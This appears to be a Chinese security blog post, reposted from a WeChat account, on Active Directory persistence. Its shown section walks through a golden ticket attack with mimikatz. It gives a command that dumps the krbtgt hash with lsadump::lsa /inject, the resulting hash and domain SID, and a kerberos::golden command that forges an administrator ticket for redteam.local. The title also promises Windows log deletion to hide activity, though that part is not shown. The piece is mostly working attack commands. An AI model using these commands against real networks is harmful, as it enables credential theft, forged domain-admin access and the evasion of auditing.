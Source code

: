 ##  内网渗透｜域内持久化与Windows日志删除

[ 渗透Xiao白帽 ](javascript:void\(0\);)

**渗透Xiao白帽** ![]()

微信号 SuPejkj

功能介绍 积硅步以致千里，积怠惰以致深渊！

____

__

收录于话题

以下文章来源于HACK学习呀 ，作者11ccaab

![HACK学习呀](http://wx.qlogo.cn/mmhead/Q3auHgzwzM40Ey25ia7icKDtM0hyhYQeTnJdaC9NzZRHPkFM71EAD3Fw/0)
**HACK学习呀**

HACK学习，专注于互联网安全与黑客精神；渗透测试，社会工程学，Python黑客编程，资源分享，Web渗透培训，电脑技巧，渗透技巧等，为广大网络安全爱好者一个交流分享学习的平台！

# 0x01 金票

可以使用krbtgt的NTLM hash创建作为任何用户的有效TGT。要伪造黄金票据的前提是知道域的SID和krbtgt账户的hash或者AES-256值。

## 1.1 收集krbtgt密码信息

    
    
    privilege::debuglsadump::lsa /inject /name:krbtgt

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210816192534.png)

得到krbtgt的hash：

    
    
    c73caed3bc6f0a248e51d37b9a8675fa

域sid值：

    
    
    S-1-5-21-151877218-3666268517-4145415712

## 1.2 金票利用

使用mimikatz伪造kerberos票证

 **生成gold.kribi**

    
    
     mimikatz "kerberos::golden /domain:redteam.local /sid:S-1-5-21-151877218-3666268517-4145415712/krbtgt:c73caed3bc6f0a248e51d37b9a8675fa /user:administrator/ticket:gold.kirbi"

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210816192535.png)
